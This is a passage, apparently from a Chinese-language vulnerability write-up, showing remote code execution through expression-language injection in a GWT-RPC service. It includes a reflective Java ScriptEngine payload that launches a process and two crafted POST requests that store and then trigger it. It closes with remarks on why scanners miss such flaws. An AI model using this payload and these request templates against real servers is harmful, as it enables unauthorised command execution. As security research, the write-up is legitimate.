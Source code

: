 ```
"".getClass().forName("javax.script.ScriptEngineManager").newInstance().getEngineByName("JavaScript").eval("var proc=new java.lang.ProcessBuilder[\"(java.lang.String[])\"]([\"cmd.exe\",\"/c\",\"calc.exe\"]).start();")
```

使用该代码更新MibWidgetBeanName会话属性，并重新触发setMibNodesInfo函数，以SYSTEM身份执行命令： 



```
POST /someService.gwtsvc HTTP/1.1
Host: [target]
Accept: */*
X-GWT-Module-Base: 
X-GWT-Permutation: 
Cookie: JSESSIONID=[cookie]
Content-Type: text/x-gwt-rpc; charset=UTF-8
Content-Length: 366
6|0|6||45D7850B2B5DB917E4D184D52329B5D9|com.aaa.bbb.ccc.ddd.client.SomeService|sendBeanName|java.lang.String|"".getClass().forName("javax.script.ScriptEngineManager").newInstance().getEngineByName("JavaScript").eval("var proc=new java.lang.ProcessBuilder[\"(java.lang.String[])\"]([\"cmd.exe\",\"/c\",\"calc.exe\"]).start();")|1|2|3|4|1|5|6|
```

触发表达式语言注入漏洞… 



```
POST /someService.gwtsvc HTTP/1.1
Host: [target]
Accept: */*
X-GWT-Module-Base: 
X-GWT-Permutation: 
Cookie: JSESSIONID=FB531EBCCE6231E7F0F9605C7661F036
Content-Type: text/x-gwt-rpc; charset=UTF-8
Content-Length: 171
6|0|6||45D7850B2B5DB917E4D184D52329B5D9|com.aaa.bbb.ccc.ddd.client.SomeService|setMibNodesInfo|java.util.List|java.util.ArrayList/3821976829|1|2|3|4|1|5|6|0|
```

[![](https://p1.ssl.qhimg.com/t012ddf842e2dbf386a.png)](https://p1.ssl.qhimg.com/t012ddf842e2dbf386a.png)

<br>

**小结**

从黑盒测试的角度来看，几乎没有办法可以发现这个漏洞。常见的工具，如Burp Suite，目前还无法检测到这种漏洞，特别是考虑到字符串存储在会话属性中的特殊情况。

随着网络技术的进步，我们对自动化的需求正在日益增加，但是在这方面的工具、技能和知识还相对缺乏，因此，许多相关的应用程序的关键代码执行漏洞还会存在一段时间。 
